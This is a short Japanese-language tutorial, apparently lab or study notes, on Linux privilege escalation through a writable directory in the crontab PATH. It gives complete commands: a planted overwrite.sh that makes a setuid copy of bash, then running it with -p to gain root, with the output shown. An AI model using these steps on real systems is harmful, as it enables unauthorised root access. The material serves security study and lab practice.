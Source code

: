 crontab PATH 環境変数は、デフォルトで次のように設定されています。   
/usr/bin:/bin   
PATH 変数は、crontab ファイルで上書きできます。   
cron ジョブ プログラム/スクリプトが絶対パスを使用せず、PATH ディレクトリの 1 つがユーザーによって書き込み可能である場合、cron ジョブと同じ名前のプログラム/スクリプトを作成できる場合があります。    
# Privilege Escalation
1. システム全体のcrontabの内容を表示します。
```
$ cat /etc/crontab
...
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/
usr/bin
...
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
/home/user ディレクトリ (書き込み可能) は PATH 変数の先頭にあり、最初の cron ジョブは絶対パスを使用しないことに注意してください。
2. /home/userに以下の内容でoverwrite.shを作成します。
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
3. overwrite.sh が実行可能であることを確認します。
```
$ chmod +x /home/user/overwrite.sh
```
4. cronjobが実行されるのを待ちます（特にこのジョブは1分ごとに実行されます）。
5. tmp/rootbashファイルが作成されたら、それを実行（実効UIDを保持するために-p付き）してrootシェルを獲得してください。
```
$ /tmp/rootbash –p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
groups=0(root) ...
```
